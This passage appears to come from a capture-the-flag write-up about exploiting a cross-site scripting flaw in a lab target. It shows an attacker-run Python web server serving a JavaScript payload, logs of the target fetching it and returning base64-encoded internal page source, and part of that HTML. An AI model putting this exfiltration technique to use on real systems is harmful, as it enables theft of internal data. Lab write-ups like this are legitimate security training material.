 After standing up a python webserver to serve our js payload we can now send the request in repeater.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

[![mail_home](/img/stacked/mail_home.png)](/img/stacked/mail_home.png)

About a minute later we get a hit for our `a.js` and a few seconds later it returns the base64 encoded source code of the internal website.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.223.207 - - [19/Sep/2021 10:08:04] "GET /a.js HTTP/1.1" 200 -
10.129.223.207 - - [19/Sep/2021 10:08:40] "GET /?a=PCFET0NUW...[snip]...0bWw+Cg== HTTP/1.1" 200 -
```

Looking at it there is another email from Jeremy which looks interesting.

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <title>AdminLTE 3 | Mailbox</title>

  <!-- Google Font: Source Sans Pro -->
  <link rel="stylesheet" href="https://fonts.googleapis.com/css?family=Source+Sans+Pro:300,400,400i,700&display=fallback">
  <!-- Font Awesome -->
  <link rel="stylesheet" href="plugins/fontawesome-free/css/all.min.css">
  <!-- icheck bootstrap -->
  <link rel="stylesheet" href="plugins/icheck-bootstrap/icheck-bootstrap.min.css">
  <!-- Theme style -->
  <link rel="stylesheet" href="dist/css/adminlte.min.css">
</head>
<body class="hold-transition sidebar-mini">

...[snip]...

 		<tr>
```